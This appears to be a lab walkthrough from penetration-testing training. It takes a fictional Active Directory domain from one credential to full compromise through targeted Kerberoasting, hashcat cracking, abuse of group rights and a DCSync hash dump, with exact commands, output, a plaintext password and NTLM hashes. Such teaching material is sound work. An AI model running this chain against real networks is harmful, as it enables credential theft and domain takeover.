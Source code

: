 # Active Directory Compromise

To recap, we dug through the Active Directory environment and obtained the following credential pair:

`mssqladm:DBAilfreight1!`

Digging into the BloodHound data we see that we have `GenericWrite` over the `ttimmons` user. Using this we can set a fake SPN on the `ttimmons account` and perform a targeted Kerberoasting attack. If this user is using a weak password then we can crack it and proceed onwards.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's go back to the `DEV01` machine where we had loaded PowerView. We can create a PSCredential object to be able to run commands as the `mssqladm` user without having to RDP again.

```powershell
PS C:\DotNetNuke\Portals\0> $SecPassword = ConvertTo-SecureString 'DBAilfreight1!' -AsPlainText -Force
PS C:\DotNetNuke\Portals\0> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\mssqladm', $SecPassword)
```

Next we'll use `Set-DomainObject` to set a fake SPN on the target account. We'll create an SPN named `acmetesting/LEGIT` which we'll of course delete later and note in the appendices of our report.

```powershell
PS C:\DotNetNuke\Portals\0> Set-DomainObject -credential $Cred -Identity ttimmons -SET @{serviceprincipalname='acmetesting/LEGIT'} -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=ttimmons)(name=ttimmons)(displayname=ttimmons))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'acmetesting/LEGIT' for object 'ttimmons
```

Next we can go back to our attack host and use `GetUserSPNs.py` to perform a targeted Keberoasting attack.

```shell-session
$ proxychains GetUserSPNs.py -dc-ip 172.16.8.3 INLANEFREIGHT.LOCAL/mssqladm -request-user ttimmons

ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.24.dev1+20210922.102044.c7bc76f8 - Copyright 2021 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:389-<><>-OK
ServicePrincipalName  Name      MemberOf  PasswordLastSet             LastLogon  Delegation 
--------------------  --------  --------  --------------------------  ---------  ----------
acmetesting/LEGIT     ttimmons            2022-06-01 14:32:18.194423  <never>               



|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:88-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:88-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:88-<><>-OK
$krb5tgs$23$*ttimmons$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/ttimmons*$6c391145c0c6430a1025df35c3e674c4$<SNIP>
```

Next we'll fire up Hashcat and see if the user is using a weak password.

```shell-session
$ hashcat -m 13100 ttimmons_tgs /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

$krb5tgs$23$*ttimmons$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/ttimmons*$$6c391145c0c6430a1025df35c3e674c4$<SNIP>:<PASSWORD REDACTED>
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, TGS-REP
Hash.Target......: $krb5tgs$23$*ttimmons$INLANEFREIGHT.LOCAL$INLANEFRE...6e6976
Time.Started.....: Wed Jun 22 16:32:27 2022 (22 secs)
Time.Estimated...: Wed Jun 22 16:32:49 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   485.7 kH/s (2.50ms) @ Accel:16 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10678272/14344385 (74.44%)
Rejected.........: 0/10678272 (0.00%)
Restore.Point....: 10672128/14344385 (74.40%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: Rock4ever! -> Redeye2

Started: Wed Jun 22 16:32:24 2022
Stopped: Wed Jun 22 16:32:51 2022
```

They are! Now we have yet another credential pair, time for the ttimmons user. Let's check and see what type of access this user has. Looking in BloodHound again we see that we have `GenericAll` over the `SERVER ADMINS` group.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Looking a bit further we see that the `SERVER ADMINS` group has the ability to perform the DCSync attack to obtain NTLM password hashes for any users in the domain.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We use abuse this by first adding the `ttimmons` user to the group. First we'll need to create another PSCredential object.

```powershell
PS C:\htb> PS C:\DotNetNuke\Portals\0> $timpass = ConvertTo-SecureString '<PASSWORD REDACTED>' -AsPlainText -Force
PS C:\DotNetNuke\Portals\0> $timcreds = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\ttimmons', $timpass)
```

Once this is done, we can add the user to the target group and inherit the DCSync privileges.

```powershell
PS C:\DotNetNuke\Portals\0> $group = Convert-NameToSid "Server Admins"
PS C:\DotNetNuke\Portals\0> Add-DomainGroupMember -Identity $group -Members 'ttimmons' -Credential $timcreds -verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'ttimmons' to group 'S-1-5-21-2814148634-3729814499-1637837074-1622
```

Finally, we can use Secretsdump to DCSync all NTLM password hashes from the Domain Controller.

```shell-session
$ proxychains secretsdump.py ttimmons@172.16.8.3 -just-dc-ntlm

ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.24.dev1+20210922.102044.c7bc76f8 - Copyright 2021 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:49676-<><>-OK
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fd1f7e55xxxxxxxxxx787ddbb6e6afa2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b9362dfa5abf924b0d172b8c49ab58ac:::
inlanefreight.local\avazquez:1716:aad3b435b51404eeaad3b435b51404ee:762cbc5ea2edfca03767427b2f2a909f:::
inlanefreight.local\pfalcon:1717:aad3b435b51404eeaad3b435b51404ee:f8e656de86b8b13244e7c879d8177539:::
inlanefreight.local\fanthony:1718:aad3b435b51404eeaad3b435b51404ee:9827f62cf27fe221b4e89f7519a2092a:::
inlanefreight.local\wdillard:1719:aad3b435b51404eeaad3b435b51404ee:69ada25bbb693f9a85cd5f176948b0d5:::

<SNIP>
```

***

## Next Steps

After making sure to document all of our steps we could perform a number of actions, many of which are detailed in the next section. Its definitely a good idea to dump the entire NTDS database and perform offline password cracking to give the client an idea of their overall password strength and other metrics. You could also show evidence of being able to authenticate to a Domain Controller and running a few commands as this may drive the point home more than seeing secretsdump output, which they may not be familiar with. Connecting to the Domain Controller via RDP and including a screenshot to the report showing a console open with the results of the `hostname`, `whoami`, and `ipconfig /all` commands can be a great visual. There is also a lot of extra value we can add after Domain Admin by performing additional audit steps of AD, attacking domain and forest trusts (if in scope) and, finally, testing the client's alerting by either creating a new Domain Admin and Enterprise Admin or adding an account we control into each of these groups. Ideally they are monitoring these highly privileged groups and will catch this and either manually, or, even better, have something automated in place to remove the accounts from the groups. If you do this definitely include this action in the report as a configuration change in the appendices and also give the client kudos if they do detect it and action it appropriately. Giving credit for the good things you see in the network/the client does is important and goes a long way towards building good will.
